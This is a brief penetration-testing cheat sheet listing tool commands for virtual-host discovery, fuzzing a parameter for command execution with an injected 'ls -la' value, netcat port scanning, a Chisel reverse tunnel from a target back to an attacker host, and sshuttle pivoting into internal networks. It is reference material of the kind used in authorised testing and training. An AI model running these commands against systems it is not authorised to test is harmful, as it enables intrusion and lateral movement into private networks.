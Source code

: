 # Vhost discovery:

- **Gobuster:**
```bash
gobuster vhost -u <URL to fuzz> -w <wordlist>
```
- **WFUZZ**
```bash
wfuzz -u <URL> -w <wordlist> -H "Host: FUZZ.example.com" --hc <status codes to hide>
```

# FUZZ RCE Parameters
```bash
wfuzz -u <http://example.com/?FUZZ=ls+-la> -w <wordlist> --hw 2
```
# Port Scanning with NetCat

```bash
nc -zv <IP> 1-65535
```
# Chisel (Reverse Connection):
> Make sure to add `socks5	127.0.0.1 1080` in **/etc/proxychains4.conf** file.
- On the local machine:
```bash
./chisel server -p 8000 --reverse
```
- On target host:
```bash
./chisel client <LHOST>:8000 R:socks
```
# Internal Network access using SShuttle:
```bash
└─$ sudo sshuttle -r <username>@<RHOST> <Internal IP/Subnet>
```
